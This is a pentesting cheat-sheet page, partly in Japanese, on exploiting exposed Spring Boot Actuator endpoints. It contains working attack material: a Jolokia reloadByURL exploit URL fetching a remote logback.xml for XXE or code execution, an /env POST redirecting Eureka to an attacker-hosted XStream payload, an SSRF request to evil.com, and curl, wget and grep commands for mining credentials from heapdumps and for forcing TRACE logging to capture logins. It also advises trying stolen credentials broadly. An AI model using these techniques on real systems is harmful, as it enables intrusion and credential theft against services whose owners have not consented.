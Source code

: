 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**出典** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Spring Boot Actuators の悪用

**元の投稿を確認：** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **主なポイント:**

- Spring Boot Actuators は `/health`、`/trace`、`/beans`、`/env` などのエンドポイントを登録する。バージョン 1 から 1.4 ではこれらのエンドポイントは認証なしでアクセス可能。1.5 以降ではデフォルトで非機密なのは `/health` と `/info` のみだが、開発者がこのセキュリティを無効にすることが多い。
- 特定の Actuator エンドポイントは機密データを露出したり有害な操作を許容したりする可能性がある:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, および `/heapdump`。
- Spring Boot 1.x では actuators はルート URL 配下に登録されるが、2.x では `/actuator/` ベースパス配下に配置される。

### **悪用テクニック:**

1. **Remote Code Execution via '/jolokia'**:
- `/jolokia` actuator エンドポイントは Jolokia Library を公開しており、MBeans への HTTP アクセスを可能にする。
- `reloadByURL` アクションは外部 URL からのロギング設定のリロードに悪用でき、巧妙に作られた XML 設定によって blind XXE や Remote Code Execution を引き起こす可能性がある。
- 例のエクスプロイト URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

- Spring Cloud Libraries が存在する場合、`/env` エンドポイントは環境プロパティの変更を許可する。
- プロパティを操作することで、Eureka の serviceURL における XStream のデシリアライズ脆弱性などを悪用できる。
- 例の POST リクエスト:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **その他の有用な設定:**
- `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, `spring.datasource.tomcat.max-active` のようなプロパティは、SQL インジェクションやデータベース接続文字列の変更など、さまざまな悪用に利用され得る。

### **追加情報:**

- デフォルトの actuator の包括的なリストは [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) にある。
- Spring Boot 2.x の `/env` エンドポイントはプロパティ変更に JSON フォーマットを使用するが、概念は同じである。

### **関連トピック:**

1.  **Env + H2 RCE**:
- `/env` エンドポイントと H2 データベースを組み合わせた悪用の詳細は [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) を参照。

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
- Spring フレームワークの HTTP pathname における matrix parameters (`;`) の扱いの不備は Server-Side Request Forgery (SSRF) に悪用され得る。
- 例のエクスプロイトリクエスト:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
## HeapDump secrets mining (credentials, tokens, internal URLs)

If `/actuator/heapdump` is exposed, you can usually retrieve a full JVM heap snapshot that frequently contains live secrets (DB creds, API keys, Basic-Auth, internal service URLs, Spring property maps, etc.).

- Download and quick triage:
```bash
wget http://target/actuator/heapdump -O heapdump
# Quick wins: look for HTTP auth and JDBC
strings -a heapdump | grep -nE 'Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client'
# Decode any Basic credentials you find
printf %s 'RXhhbXBsZUJhc2U2NEhlcmU=' | base64 -d
```

- Deeper analysis with VisualVM and OQL:
- Open heapdump in VisualVM, inspect instances of `java.lang.String` or run OQL to hunt secrets:
```
select s.toString()
from java.lang.String s
where /Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client|OriginTrackedMapPropertySource/i.test(s.toString())
```

- Automated extraction with JDumpSpider:
```bash
java -jar JDumpSpider-*.jar heapdump
```
Typical high-value findings:
- Spring `DataSourceProperties` / `HikariDataSource` objects exposing `url`, `username`, `password`.
- `OriginTrackedMapPropertySource` entries revealing `management.endpoints.web.exposure.include`, service ports, and embedded Basic-Auth in URLs (e.g., Eureka `defaultZone`).
- Plain HTTP request/response fragments including `Authorization: Basic ...` captured in memory.

Tips:
- Use a Spring-focused wordlist to discover actuator endpoints quickly (e.g., SecLists spring-boot.txt) and always check if `/actuator/logfile`, `/actuator/httpexchanges`, `/actuator/env`, and `/actuator/configprops` are also exposed.
- Credentials from heapdump often work for adjacent services and sometimes for system users (SSH), so try them broadly.


## Abusing Actuator loggers/logging to capture credentials

If `management.endpoints.web.exposure.include` allows it and `/actuator/loggers` is exposed, you can dynamically increase log levels to DEBUG/TRACE for packages that handle authentication and request processing. Combined with readable logs (via `/actuator/logfile` or known log paths), this can leak credentials submitted during login flows (e.g., Basic-Auth headers or form parameters).

- Enumerate and crank up sensitive loggers:
```bash
# List available loggers
curl -s http://target/actuator/loggers | jq .

# Enable very verbose logs for security/web stacks (adjust as needed)
curl -s -X POST http://target/actuator/loggers/org.springframework.security \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.web \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
curl -s -X POST http://target/actuator/loggers/org.springframework.cloud.gateway \
-H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
```

- Find where logs are written and harvest:
```bash
# If exposed, read from Actuator directly
curl -s http://target/actuator/logfile | strings | grep -nE 'Authorization:|username=|password='

# Otherwise, query env/config to locate file path
curl -s http://target/actuator/env | jq '.propertySources[].properties | to_entries[] | select(.key|test("^logging\\.(file|path)"))'
```

- Trigger login/authentication traffic and parse the log for creds. In microservice setups with a gateway fronting auth, enabling TRACE for gateway/security packages often makes headers and form bodies visible. Some environments even generate synthetic login traffic periodically, making harvesting trivial once logging is verbose.

Notes:
- Reset log levels when done: `POST /actuator/loggers/<logger>` with `{ "configuredLevel": null }`.
- If `/actuator/httpexchanges` is exposed, it can also surface recent request metadata that may include sensitive headers.


## References

- [Exploring Spring Boot Actuator Misconfigurations (Wiz)](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)
- [VisualVM](https://visualvm.github.io/)
- [JDumpSpider](https://github.com/whwlsfb/JDumpSpider)
- [0xdf – HTB Eureka (Actuator heapdump to creds, Gateway logging abuse)](https://0xdf.gitlab.io/2025/08/30/htb-eureka.html)

{{#include ../../banners/hacktricks-training.md}}
